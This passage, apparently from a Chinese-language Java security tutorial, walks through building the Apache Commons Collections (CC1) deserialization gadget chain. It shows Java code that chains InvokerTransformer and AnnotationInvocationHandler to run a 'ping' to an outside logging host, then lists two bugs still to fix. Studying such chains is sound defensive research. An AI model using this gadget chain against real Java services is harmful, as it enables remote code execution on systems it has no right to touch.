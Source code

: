 加上序列化、反序列化的代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor m = clazz.getDeclaredConstructor(Class.class, Map.class);
        m.setAccessible(true);
        m.newInstance(Override.class, transformedMap);
        serializeObject(m);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

到这里已经大差不差了，有两个小问题需要去解决一下

```
1. 上述代码运行报错，报错原因是Runtime类不能序列化
2. Entrance class中readObject方法中虽然有memberValue.setValue，但代码走到这一行需要两个if判断均为True
```
